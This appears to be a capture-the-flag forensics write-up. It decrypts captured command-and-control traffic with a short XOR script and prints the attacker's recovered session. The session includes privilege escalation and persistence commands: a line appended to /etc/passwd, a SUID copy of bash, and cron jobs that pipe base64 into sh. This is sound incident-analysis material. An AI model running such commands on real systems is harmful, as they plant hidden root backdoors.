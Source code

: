 Now that we have all the traffic from the client and know that both the commands and their outputs are encrypted in the same way, we can write a simple script to decrypt both and print them.

```py
import base64
from pwn import xor

for line in open("./output.txt", "r").readlines():
	command_or_output_b64 = line.split("AAAAAAAAAA")[1]
	command_or_output = base64.b64decode(command_or_output_b64)
	print(xor(command_or_output, b"MySup3rXoRKeYForCommandandControl")[:len(command_or_output)].decode())
```
{: file="dec.py" }

Running the script, we obtain all the commands executed by the attacker along with their outputs.

```console
$ python3 dec.py
id
uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

cat /h[REDACTED]ry
my[REDACTED]i'

sudo -l
Matching Defaults entries for bella on seetwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bella may run the following commands on seetwo:
    (ALL : ALL) ALL

id
uid=0(root) gid=0(root) groups=0(root)

echo 'to[REDACTED]sh' >> /etc/passwd

tail -n 1 /etc/passwd
to[REDACTED]sh

cp /usr/bin/bash /u[REDACTED]wd

chmod u+s /u[REDACTED]wd

ls -l /u[REDACTED]wd
-rwsr-xr-x 1 root root 1183448 Oct 27 03:07 /u[REDACTED]wd

md5sum /u[REDACTED]wd
23[REDACTED]ec  /us[REDACTED]wd

md5sum /usr/bin/bash
23[REDACTED]ec  /usr/bin/bash

echo '* * * * * /bin/sh -c "[REDACTED]"' >> /var/spool/cron/crontabs/root

tail -n 1 /var/spool/cron/crontabs/root
* * * * * /bin/sh -c "[REDACTED]"

echo '* * * * * echo L2[REDACTED]ki | base64 | sh' >> /var/spool/cron/crontabs/bella

tail -n 1 /var/spool/cron/crontabs/bella
* * * * * echo L2[REDACTED]ki | base64 | sh
```
